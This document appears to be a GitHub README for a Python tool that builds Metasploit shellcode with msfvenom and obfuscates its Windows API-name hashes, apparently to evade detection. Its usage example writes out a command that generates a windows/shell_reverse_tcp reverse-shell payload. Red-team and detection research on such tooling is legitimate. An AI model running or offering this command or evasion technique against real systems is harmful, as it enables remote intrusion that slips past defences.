

# shencode
automation script for creating and obfuscating metasploit shellcode

## Features

### Version 0.1

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Save modified shellcode to disk

## ToDo

- choose between building a shellcode and use an existing one
- write shellcode in a template file (.cpp)
- automatical compile feature
- export shellcode to different formats (e.g. c++, c#, hex...)
- Use PATH for better msfvenom integration
- object oriented rewrite for better module integration

## How to use

Please change the metasploit path in line 166 that it fits your needs. This will be fixed in the future.

`python shencode.py --payload windows/shell_reverse_tcp --arg1 "LHOST=127.0.0.1" --arg2 "LPORT=4455" --key 128 --verbose`

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
